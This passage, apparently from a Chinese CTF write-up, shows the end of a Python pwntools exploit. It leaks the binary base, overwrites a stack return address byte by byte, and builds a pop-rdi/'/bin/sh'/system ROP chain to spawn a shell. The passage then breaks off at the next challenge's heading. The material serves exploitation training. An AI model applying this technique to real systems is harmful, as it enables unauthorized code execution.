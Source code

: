 ```python
	nums.append(num)

tmp = ""
for ch in [chr(int("0x" + i, 16)) for i in nums]:
	tmp += ch
elf_addr = u64(tmp)
elf_base = elf_addr - 0xca0
print hex(elf_base)

poprdi = 0x0000000000000d03 #: pop rdi ; ret
poprdi += elf_base

rip = 0x150 + 8

# hijack retn addr
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(rip + i))
	p.recvuntil("input new value\n")
	p.sendline(str(ord(p64(poprdi)[i])))

# put /bin/sh addr on stack
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(rip + 8 + i))
	p.recvuntil("input new value\n")
	p.sendline(str(ord(p64(binsh)[i])))

# call system
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(rip + 16 + i))
	p.recvuntil("input new value\n")
	p.sendline(str(ord(p64(system)[i])))

for i in range(41 - 40):
	p.recvuntil("index\n")
	p.sendline(str(10))
	num = p.recvline().split(' ')[-1].strip()
	p.recvuntil("input new value\n")
	p.sendline(str(int("0x" + num, 16)))

p.recvuntil("? \n")
p.sendline("no")
p.interactive()	
```

## 0x01 daily

### 防护
